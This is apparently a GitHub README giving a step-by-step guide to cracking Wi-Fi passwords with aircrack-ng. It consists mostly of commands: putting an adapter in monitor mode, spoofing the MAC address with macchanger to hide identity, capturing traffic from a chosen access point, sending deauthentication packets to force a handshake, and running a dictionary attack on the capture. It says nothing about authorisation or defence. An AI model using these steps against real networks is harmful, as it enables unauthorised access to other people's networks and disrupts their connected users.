 Wifi Password Cracking With Aircrack-ng 
=======================================


Make sure your adapter supports *montitor mode* and install `aircrack-ng`.

### Step 0

```
	$ ifconfig
```

Check if network device, that supports monitor mode, is listed. Note the name
of the device. Change the device `mac address` using `macchanger`.

### Step 1
Start airmon-ng on network `interface` by using

```
	$ sudo airmon-ng start <interface>
```

To start airmon-ng on a given channel type

```	
	$ sudo airmon-ng start <interface> <channel>
```

Run `ifconfig` and note the new nameof the network interface  (after setting the
interface to monitor mode).

### Step 2

In a new terminal window type

```	
	$ sudo airodump-ng <interface-mon>
```

Where `interface-mon` is the name of network interface in monitor mode. This
will sniff all packets in air and show mac addresses of wifi hotspots.

### Step 3

Airodump the macaddress which you want to attack

```
	$ sudo airodump-ng --bssid <MAC> --channel 1 --write <filename> <interface>
```

This will save all packets directed to device with mac address `MAC`.

### Step 4
Deauthentication attack

```
	$  sudo aireplay-ng --deauth 50 -a <MAC> <interface> 
```	

This will send deauthentication packets in air, pretending to be device with mac
address `MAC`. Hope for a handshake capture.


### Step 5

Once a handshake is captured. Use dictionary attack against captured packets that are
being saved, see `Step 3`.

```	
	$ aircrack-ng -w <dictionary>  <captured packets> 
```

If the wifi password is weak, password will be cracked in a matter of seconds.

### Step 6
Set wifi interface to normal mode.

```
	$ sudo airmon-ng stop <interface>
```

### Notes
	
1. Make sure you change MAC Address of your device with `macchanger`.
